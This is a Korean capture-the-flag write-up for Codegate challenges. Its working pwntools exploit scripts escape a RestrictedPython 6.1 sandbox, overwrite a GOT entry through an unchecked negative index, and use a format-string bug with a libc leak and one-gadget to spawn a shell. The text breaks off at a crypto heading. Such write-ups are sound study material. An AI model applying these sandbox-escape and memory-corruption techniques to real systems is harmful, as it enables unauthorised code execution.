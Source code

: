 ### shielder(조수호) 

1. misc/Hello Codegate
2. misc/Captcha World
3. misc/safePythonExecutor
4. pwn/What's Happening?
5. pwn/Magic Palette
6. crypto/Encrypted flag
7. rev/inital
8. rev/C0D3Matr1x
9. web/Ping Tester

---
## misc/Hello Codegate

디코 `notice` 채널에 플래그가 나와있다.

---
## misc/Captcha World

캡챠를 입력해야 한다. 근데 10번만 하면 되기 때문에 그냥 직접 입력해주면 된다.

---
## misc/safePythonExecutor

중요한 것은 `RestrictedPython==6.1`이다. CVE를 찾아보니 format, format_map, formatter 쪽에 필터링 실패 취약점이 있다고 한다.

https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf23/pyjail/rattler-read/writeup/README.md

위의 라업 논리를 그대로 따라가면 똑같은 방법으로 풀 수 있다.

### exploit.py

```python
from pwn import *

p = remote('3.35.196.167', 42424)
#p = process(['python3', 'prob.py'])

#dt = '''string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")'''
dt = '''
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); 
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
'''.replace('\n', '\r')
p.sendlineafter(b': ', dt)
p.send(b'\n')
p.interactive()
```

---
## pwn/What's Happening?

pie가 꺼져 있다. Partial RELRO이다. 행성 정보 업데이트를 하는데 음수 인덱스를 안 막아 놨다. 그래서 got overwrite가 된다. puts got을 win 함수로 덮으면 된다. system got이 망가지긴 하는데, pie가 꺼져 있어서 그냥 다시 입력 해주면 된다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./prob')
p = remote('3.37.174.221', 33333)
e = ELF('./prob')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'-3')
p.sendlineafter(b': ', p64(e.sym['win']) + b'a' * 8 + p64(0x401080))
p.sendlineafter(b': ', b'0')
#gdb.attach(p)
p.sendlineafter(b': ', b'0')
p.interactive()
```

---

## pwn/Magic Palette

`print_palette`에서 입력 때 조건을 좀 맞춰주면 `FSB`가 터진다. `k`라는 바이트를 출력하고 싶으면 `k + b'\x80'`을 입력해주면 된다. `FSB`가 무제한이므로 릭은 얼마든지 할 수 있다.
원가젯은
```
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

이걸 쓰고, r12를 0으로 만들어줬다. `FSB`로 `printf` 내부 스택 프레임의 `pop r12`와 ret 부분에 덮어줘서 해결했다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

def rp(payload : bytes):
    p.sendlineafter(b'> ', b'1')
    for i in range(len(payload)):
        p.send(payload[i:i+1] + b'\x80')
    for i in range(len(payload), 64 * 64):
        p.send(b'\x00\x60')

def mc(x : int, y : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'x > ', str(x).encode())
    p.sendlineafter(b'y > ', str(x).encode())

def pp():
    p.sendlineafter(b'> ', b'3')
    return p.recvline()[:-1]

#p = process('./prob')
p = remote('43.203.137.197', 54321)
l = ELF('./libc.so.6')

num = 6 + (0x7ffc25f12bc0 - 0x7ffc25f11b80) // 8
payload = f'%{num}$p%{num+9}$p'
rp(payload.encode())

msg = pp()
mainrbp = int(msg[:14].decode(), 16)
l.address = int(msg[14:28].decode(), 16) - (0x7fea359d0d90 - 0x7fea359a7000)
print(hex(mainrbp))
print(hex(l.address))

# mainrbp = 0x7ffd93f7aff0
# r12 = 0x7ffd93f79e70
# ret = 0x7ffd93f79e88

og = l.address + 0xebd38
r12 = mainrbp + (0x7ffd93f79e70 - 0x7ffd93f7aff0)
ret = mainrbp + (0x7ffd93f79e88 - 0x7ffd93f7aff0)
payload = '%17$n%18$n'
payload += f'%{(og & ((1 << 16) - 1))}c'
payload += f'%19$hn'
payload += f'%{((og >> 16) & ((1 << 16) - 1)) - (og & ((1 << 16) - 1)) + 0x10000}c'
payload += f'%20$hn'
payload += 'a' * 4
print(hex(0x28 - len(payload)))
payload = payload.encode()
payload += p64(r12)
payload += p64(r12 + 4)
payload += p64(ret)
payload += p64(ret + 2)
mc(0, 0)
rp(payload)
#gdb.attach(p, f"b* {l.address + (0x7f8ac570c734 - 0x7f8ac5695000)}")
p.sendlineafter(b'> ', b'3')
p.interactive()
```

---
## crypto/Encrypted flag

